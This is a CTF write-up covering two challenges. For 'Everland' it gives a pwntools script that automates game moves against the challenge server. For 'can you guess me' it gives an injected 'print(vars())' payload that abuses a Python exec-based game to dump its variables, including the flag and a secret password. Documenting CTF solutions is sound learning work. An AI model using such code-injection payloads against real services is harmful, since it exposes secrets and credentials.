 # Everland

    Description:
    In a darkened land, a hero must fight for their flag! Source
    running at everland.pwni.ng:7772
    
Everland was a textbased monster killing game. There were a few people looking at this and they figured out `fight` plus `2` or `Recouperate` will heal yourself by 10 and also do 10hp to the monster. I scripted this and then figured out Capturing an enemy at 0hp to Sacrifice to the final boss would lead to the flag. 
## Solution 
```
#!/usr/env/python
from pwn import *

r = remote('everland.pwni.ng',7772)

r.sendline("chris")

for j in range(0, 10):
    print(r.recvline())
    r.sendline("forage")
    print(r.recvline())

for k in range(0, 4):
    print(r.recvline())
    r.sendline("use")
    print(r.recvline())
    r.sendline("0")
    print(r.recvline())


for i in range(0, 81):
    print(r.recvline())
    r.sendline("fight")
    print(r.recvline())
    r.sendline("2")
    print(r.recvline())

r.interactive()
```
This script gets you to the last turn with a normal enemy before making it to the boss. This is where I woudl use the rest of the items and then `fight` and `4` or `Capture` the enemy. You then move onto the boss and this is wherre you `fight` and `6` or `Sacrifice` and then you kill the Possesed monster and get the flag. The full log is in this repo. 

Flag: `PCTF{just_be_glad_i_didnt_arm_cpt_hook_with_GADTs}`


# can you guess me

    Description:
    Here's the source to a guessing game: here
    You can access the server at
    nc canyouguessme.pwni.ng 12349

Looking at the source we figured out we could input any set of characters that is less than or equal to 10. Not 10 total but 10 distinct characters. 
We chose `print(vars())` as it would print out all the variables, including flag. The of `print(vas)` is exactly 10 and thus was valid. 

```


  ____         __   __           ____                     __  __
 / ___|__ _ _ _\ \ / /__  _   _ / ___|_   _  ___  ___ ___|  \/  | ___
| |   / _` | '_ \ V / _ \| | | | |  _| | | |/ _ \/ __/ __| |\/| |/ _ \
| |__| (_| | | | | | (_) | |_| | |_| | |_| |  __/\__ \__ \ |  | |  __/
 \____\__,_|_| |_|_|\___/ \__,_|\____|\__,_|\___||___/___/_|  |_|\___|



Input value: print(vars())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f368183b9e8>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/guessme/can-you-guess-me.py', '__cached__': None, 'exit': <built-in function exit>, 'secret_value_for_password': 'not even a number; this is a damn string; and it has all 26 characters of the alphabet; abcdefghijklmnopqrstuvwxyz; lol', 'flag': 'PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}', 'exec': <function exec at 0x7f3681784158>, 'val': 0, 'inp': 'print(vars())', 'count_digits': 10}
Nope. Better luck next time.
```

Flag: `PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}`

